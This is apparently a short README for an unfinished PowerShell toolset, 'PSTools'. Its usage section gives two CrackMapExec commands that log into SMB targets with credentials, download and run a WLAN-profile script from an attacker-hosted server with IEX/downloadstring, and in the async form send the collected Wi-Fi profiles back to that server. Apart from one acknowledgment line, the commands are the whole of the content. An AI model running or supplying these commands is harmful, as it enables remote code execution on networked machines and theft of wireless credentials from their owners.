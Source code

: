 # PSTools (WIP)

## Usage

ASYNC EXEC:
```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile -AsyncURI http://$IP:8000;" --no-output```

SYNC EXEC:
```cme smb $TARGETS -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile;"```

## Acknowledgments
* I copied and modified some scripts from here: https://github.com/BornToBeRoot/PowerShell
